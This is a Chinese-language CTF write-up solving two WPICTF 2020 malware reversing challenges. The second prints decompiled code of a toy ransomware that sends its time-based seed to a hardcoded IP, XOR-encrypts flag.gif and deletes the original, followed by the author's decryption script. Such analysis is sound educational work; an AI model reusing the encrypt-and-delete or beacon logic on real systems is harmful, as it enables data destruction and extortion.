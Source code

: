 这次的比赛只有两道re，全都是malware，不难，也还挺有意思

#### danger-Live-and-Malicious-Code

病毒的代码里面混进了flag，js的语法也不是特别懂，发现了很多处理字符串的函数，所以干脆`console.log`都输出了出来，发现输出的`url`中间夹了flag

```
WPI{Oh_nose_procoding_detected}
```



#### NotWannasigh

首先看下`ransom note`

```
Haha! Your precious file flag.gif has been encrypted by my new and improved ransomware NotWannasigh! You must send bitcoin to "bitpay.com/83768" to get the decryption key. You should act fast because in 48 hours I will delete the key. Muahahahaha!
 - def-not-h4ckah

(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. If you send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey, that's really nice of you, Mental Health Hackers is a great organization). I will NOT send you the decryption key)
```

题目中所给的`flag-gif.EnCiPhErEd`应该就是加密过的文件，解密就可以得到flag，给的流量包暂时不知道作用是什么，干脆先看看程序的实现

```c++
*(_QWORD *)seed = time(0LL);
  srand(seed[0]);
  fd = socket(2, 1, 0);
  if ( fd == -1 )
  {
    puts("could not create socket");
  }
  else
  {
    puts("created socket");
    *(_DWORD *)&addr.sa_data[2] = inet_addr("108.61.127.136");
    addr.sa_family = 2;
    *(_WORD *)addr.sa_data = htons(0x50u);
    if ( connect(fd, &addr, 0x10u) >= 0 )
    {
      puts("connected");
      sprintf(&s, "%d", *(_QWORD *)seed);
      if ( send(fd, &s, 0xAuLL, 0) >= 0 )
        puts("sent");
      else
        puts("send failed");
    }
    else
    {
      puts("connect error");
    }
  }
```

先根据当前时间生成了一个随机数种子，然后进行通信，把这个种子发给了一个ip，这个种子肯定是后面生成随机数用的，所以肯定是有用的，这也就是流量包的作用，根据流量信息可以获得这个随机数种子的值`1585599106`

下面生成了一个随机数序列

```c++
  puts("targetting flag.gif");
  stream = fopen("flag.gif", "r+");
  fseek(stream, 0LL, 2);
  v19 = ftell(stream);
  fseek(stream, 0LL, 0);
  printf("fileSize = %d\n", (unsigned int)v19);
  v18 = v19 - 1LL;
  v8 = v19;
  v9 = 0LL;
  v3 = alloca(16 * ((v19 + 15LL) / 0x10uLL));
  v17 = &v6;
  for ( i = 0; i < v19; ++i )
    *((_BYTE *)v17 + i) = rand();
  puts("key generated by 256");
```

生成了key，下面是加密过程

```c++
for ( j = 0; ; ++j )
  {
    v14 = fgetc(stream);
    if ( j >= v19 )
      break;
    *((_BYTE *)v15 + j) = v14 ^ *((_BYTE *)v17 + j);
  }
  fclose(stream);
  remove("flag.gif");
  v13 = fopen("flag-gif.EnCiPhErEd", "w+");
  for ( k = 0; k < v19; ++k )
    fputc(*((unsigned __int8 *)v15 + k), v13);
  fclose(v13);
```

简单异或之后写入文件，所以生成随机数序列之后再异或回来就好了

```c++
#include <iostream>
#include <cstdio>
using namespace std;
int main()
{
    srand(1585599106);
    FILE *s = fopen("../flag-gif.EnCiPhErEd", "r");
    int index = 0;
    FILE *f = fopen("../flag.gif", "w+");
    while (!feof(s))
    {
        int uVar1 = rand()&0xff;
        int8_t tmp2=fgetc(s);
        int8_t tmp = uVar1 ^ tmp2;
        fputc(tmp, f);
        index = (int32_t)index + 1;
    }

    fclose(s);
    fclose(f);
    return 0;
}
```

这个脚本要在linux下跑，因为win的随机数生成的不一样

得到了含有flag的gif

![flag](_images/2020-WPICTF/flag.gif)

flag有点难读，第一遍还读错了一位

```
WPI{It_always_feels_a_little_weird_writing_malware}
```

